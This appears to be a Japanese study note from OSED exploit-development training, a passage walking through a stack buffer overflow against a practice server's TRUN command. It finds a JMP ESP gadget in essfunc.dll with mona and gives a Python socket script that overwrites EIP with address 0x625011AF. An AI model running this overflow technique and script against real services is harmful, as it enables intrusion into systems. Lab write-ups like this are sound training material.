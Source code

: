 EIP(次に実行するアセンブリのアドレス)を書き換えるためJMP先を決める。
ESPにペイロードを置いて、ESPにジャンプさせるので、`jmp esp`の命令コードを確認する。

```sh
┌──(kali㉿kali)-[~/OSED]
└─$ /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
nasm > JMP ESP
00000000  FFE4              jmp esp
nasm > 
```
![[Pasted image 20240727171713.png]]

使用する命令コードがわかったので、monaを起動し検索する。
monaの起動
```
!mona modules
```
![[Pasted image 20240727164517.png]]
![[Pasted image 20240727164636.png]]

`nasm_shell`で判明した命令コード`FFE4`で検索する。
```
!mona find -s '\xff\xe4' -m essfunc.dll
```
![[Pasted image 20240727164657.png]]

以下の候補が使用できる。
とりま一番上の`625011AF`を使用する。
```
625011AF     0x625011af 
625011BB     0x625011bb 
625011C7     0x625011c7 
625011D3     0x625011d3 
625011DF     0x625011df 
625011EB     0x625011eb 
625011F7     0x625011f7 
62501203     0x62501203 
62501205     0x62501205 
```

<font color="#245bdb">⇒■</font>を選択して、`625011AF`を検索、`F2キー`を押してブレークポイントを設定する。
検索するときは2回くらいやらないとだめかも
![[Pasted image 20240727165314.png]]

F2でブレークポイントを設定
![[Pasted image 20240727165437.png]]

今度はEIPを`625011AF`にしてちゃんと書き換わるかを確認する。
```python
import socket
import sys

jmp_addr =  b"\xaf\x11\x50\x62"
buffer = b"A"*2003
payload = buffer + jmp_addr

try:  
  s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
  s.settimeout(5)
  s.connect(('192.168.40.47',9999))
  s.send((b'TRUN /.:/' + payload))  
  s.close()  
except Exception as e:
  print(e)  
  sys.exit()
```
